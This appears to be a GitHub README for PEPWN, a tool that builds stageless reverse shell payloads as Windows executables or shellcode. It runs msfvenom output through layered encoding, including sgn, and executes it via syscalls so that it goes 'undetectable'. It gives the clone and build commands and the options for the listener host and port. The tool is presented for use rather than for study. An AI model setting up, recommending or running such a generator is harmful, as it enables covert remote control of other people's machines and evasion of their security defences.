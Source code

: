 # PEPWN
PWNPE is a multi chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


# Overview

1- generate a payload with msfvenom.
2- generate a shellcode from it
3- encodes it.
4- apply 2nd layer of encoding using sgn.
5- transfer it into a shellcode format of use or create exe file that triggers that shellcode using syscalls.



# Installation

Go to /root directory 

git clone https://github.com/0xx7/PEPWN.git



./build.sh

Then 

./wrapper -H



# Documentation

Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 -f : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 -t : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 -h : host/ip/domain of the listener
 
 -p : port of the listener
 
 -H : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


# How to use

https://youtu.be/SYriAv_FPAg


<iframe width="560" height="315" src="https://www.youtube.com/embed/SYriAv_FPAg" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
